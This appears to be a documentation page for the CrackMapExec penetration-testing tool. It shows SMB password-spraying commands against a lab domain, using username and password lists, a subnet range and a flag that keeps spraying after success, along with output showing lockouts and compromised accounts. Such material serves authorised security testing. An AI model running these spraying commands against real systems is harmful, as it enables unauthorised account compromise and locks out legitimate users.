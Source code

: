 ------------------------------------------------------------------------
### Using Username and/or Password Lists

You can use multiple usernames or passwords by seperating the names/passwords with a space.
```
#~ cmx smb 10.10.33.123 -u user1 user2 user3 -p Summer18
#~ cmx smb 10.10.33.123 -u user1 -p password1 password2 password3
```
Example using multiple passwords:
```
#~ cmx smb 10.10.33.123 -u agrande -p password1 Spring19 User\!23

Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\agrande:password1 STATUS_LOGON_FAILURE 
Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\agrande:Spring19 STATUS_LOGON_FAILURE 
Aug.20.19 14:49:23  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
```

CMX also accepts files of usernames and passwords. One user/password per line.
Watch out for account lockout!  
```
#~ cmx smb 10.10.33.123 -u /path/to/users.txt -p Summer18
#~ cmx smb 10.10.33.0/24 -u Administrator -p /path/to/passwords.txt
```

Example using username list:
```
#~ cmx smb 10.10.33.123 -u userlist -p User\!23 
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\TestUser1:User!23 STATUS_LOGON_FAILURE 
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\UserA:User!23 STATUS_LOGON_FAILURE 
Aug.20.19 14:50:08  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\Administrator:User!23 STATUS_LOGON_FAILURE 

```

------------------------------------------------------------------------
### Keep spraying after success  

\*Note\*: By default CMX will exit after a successful login is found.
Using the --continue-on-success flag will continue spraying even after a 
valid password is found. Usefull for spraying a single password against a large user list  
Example:  
```
#~ cmx smb 10.10.33.123 -u doms -p User\!23 --continue-on-success 

Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\ozzy:User!23 STATUS_ACCOUNT_LOCKED_OUT 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\mbellamy:User!23 STATUS_ACCOUNT_LOCKED_OUT 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\tswift:User!23 (Pwn3d!)
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\tim:User!23 STATUS_ACCESS_DENIED 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\carol:User!23 STATUS_LOGON_FAILURE 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [-] OCEAN\eddy:User!23 STATUS_LOGON_FAILURE 
Aug.20.19 14:56:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
```